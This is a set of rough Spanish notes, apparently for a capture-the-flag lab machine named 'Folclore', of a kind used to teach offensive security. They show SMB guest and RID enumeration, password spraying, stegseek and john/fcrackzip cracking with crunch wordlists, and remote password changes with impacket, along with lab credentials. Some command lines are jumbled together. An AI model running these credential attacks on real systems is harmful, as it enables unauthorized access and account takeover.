Folclore
r

- Enumeración SMB con usuario Invitado mediante RID
- Fuerza bruta sobre SMB
- Análisis de metadatos en imágenes
- Esteganografía en imágenes
- Cracking de contraseñas en archivos ZIP
- Creación de diccionarios personalizados
- Ejecución de comandos mediante SMB


netexec smb 192.168.56.113 -u 'guest' -p '' --shares




netexec smb 192.168.56.113 -u 'Guest' -p ' ' --rid-brute
Quetzalcoatl
Ix_Chel
Tlaloc
La_mulata_de_Cordoba
La_Catrina

https://es.wikipedia.org/wiki/Danza_de_Quetzales
curl -s "https://es.wikipedia.org/wiki/Danza_de_Quetzales" | grep -oE '[a-zA-ZáéíóúÁÉÍÓÚñÑ]{5,}' | sort -u > wordlist_danza.txt
curl -s "https://es.wikipedia.org/wiki/D%C3%ADa_de_Muertos" | grep -oE '[a-zA-ZáéíóúÁÉÍÓÚñÑ]{5,}' | sort -u > wordlist_muertos.txt

El_charro_negro
abc123
nxc
smb
192.168.56.113
-u
El_charro_negro
-p
abc123
-M
change-password
-o
NEWPASS=
abc1234impacket-smbpasswd.py 'FOLCLORE/El_charro_negro:abc123@192.168.56.113' -newpass 'abc1234'
smbpasswd -j FOLCLORE -r 192.168.56.113 -U El_charro_negro
impacket-changepasswd 'El_charro_negro':'abc123'@192.168.56.113 -newpass 'TuNuevaContrasena123!'
# Opción A: smbpasswd (el más directo)
smbpasswd -r 192.168.56.113 -U El_charro_negro
python3 /usr/share/doc/python3-impacket/examples/smbpasswd.py El_charro_negro:abc123@192.168.56.113 -newpass 'NuevaPassw0rd!'

netexec smb 192.168.56.113 -u guest -p '' -M spider_plus
esto te baja todo lo que acceda









´Hay que poner comillas simples, si no, el dolar desaparece:
netexec smb 192.168.56.111 -u userdir.txt -p '45yD#k7'

Tlaloc
677Kn$q


si pide passprase es que hay algo cifrado

fuerza bruta contraseña
stegseek Tlaloc.jpg /usr/share/wordlists/ffuf/SecLists-master/Passwords/Common-Credentials/xato-net-10-million-passwords.txt

al lado de la imagen se ha descomprimido el archivo





tiene contraseña, supongo que la conseguiremos despues

La_catrina
3nM93{S#


´Solo puedo darte el quinto caracter de su clave: ‘U’ . Los demas caracteres que faltan deberas encontrarlos por tu cuenta, aunque no debe ser tan dificil; solo son numeros o letras, Confia en tu ingenio y no olvides que el misterio siempre se revela a quien perservera

Esto nos esta diciendo de crear un diccionario personalizado con un quinto caracter U
generamos diccionario con letras minusculas, mayusculas, numeros y con 5 caracteres el quinto es una U
crunch 5 5 abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789 -t @@@@U -o diccionario_custom.txt

fcrackzip -v -u -D -p diccionario1.txt Pacto.zip
va muy lento

zip2john Pacto.zip > hash_pacto.txt
john --wordlist=diccionario1.txt --fork=$(nproc) hash_pacto.txt
con espacio vemos el progreso, va muy rapido, podemos ir haciendo diccionarios y probando

john --show hash_pacto.txt

no la saco, creamos otro diccionario con 6 caracteres
crunch 6 6 abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789 -t @@@@U@ -o diccionario6.txt
este ya son 6 gb

john --wordlist=diccionario6.txt --fork=$(nproc) hash_pacto.txt
hacemos un diccionario mas simple antes de continuar solo con minusculas y numeros


john --wordlist=diccionariomay7.txt --fork=$(nproc) hash_pacto.txt
john --show hash_pacto.txt
crunch 6 6 abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789 -t @@@@U@ -o diccionario6.txt